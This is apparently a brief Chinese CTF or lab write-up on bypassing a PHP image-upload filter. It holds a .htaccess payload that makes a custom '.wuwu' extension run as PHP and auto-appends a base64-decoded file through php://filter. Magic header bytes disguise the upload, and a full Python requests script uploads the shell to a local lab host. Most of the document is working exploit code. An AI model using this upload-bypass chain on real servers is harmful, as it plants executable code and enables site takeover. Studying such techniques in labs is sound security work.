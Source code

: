 
文件头为0000 8a39 8a39，只留这部分即可



对于不能写<?可以使用php://filter/covert.base64-decode/resource=shell.wuwu

```
AddType application/x-httpd-php .wuwu
php_value auto_append_file "php://filter/convert.base64-decode/resource=/var/www/html/images/1222a98e5b5a6fd81ff8761be852e16e75b18703/shell.wuwu"
```



还需要考虑的是在base64decode后能够正常反序列化出语句。

```python
shell = b"\x00\x00\x8a\x39\x8a\x39"+b"\x39\x39"+ base64.b64encode(b"<?php phpinfo();?>")

```

可以编码的字符为\x39，由于前面只有两个，而base64是4个一组，所以需要再填充两个字符，b"\x39\x39"



payload

```python
import requests
import base64
url = 'http://192.168.1.22:8000/index.php'

php_sessionID = "tj3kr62k12a7nrj33evue8qkhq"

Cookies = {
    'XDEBUG_SESSION':'XDEBUG_ECLIPSE',
    'PHPSESSID':php_sessionID
}

file_content = b"""\x00\x00\x8a\x39\x8a\x39
AddType application/x-httpd-php .wuwu
php_value auto_append_file "php://filter/convert.base64-decode/resource=/var/www/html/images/1222a98e5b5a6fd81ff8761be852e16e75b18703/shell.wuwu"
"""
# php://filter/convert.base64-decode/resource=/var/www/html/images/e694a9e3c406b3d8b247d73836958f6303ed7b72/shell.wuwu
data = {
    'upload':'submit'
}
shell = b"\x00\x00\x8a\x39\x8a\x39"+b"\x39\x39"+ base64.b64encode(b"<?php phpinfo();?>")
normal = b"\x00\x00\x8a\x39\x8a\x39" + b"";
files = {
    'image':(
        'shell.wuwu',
        shell,
        'application/octet-stream'
    )
}

proxies = {
    'http':'http://127.0.0.1:8080'
}


s = requests.session()
r = s.post(url,cookies=Cookies,data=data,files=files,proxies=proxies).text
print(r)


# images/295be839f519b2a6dac30e8e472ca45856fcb402/
```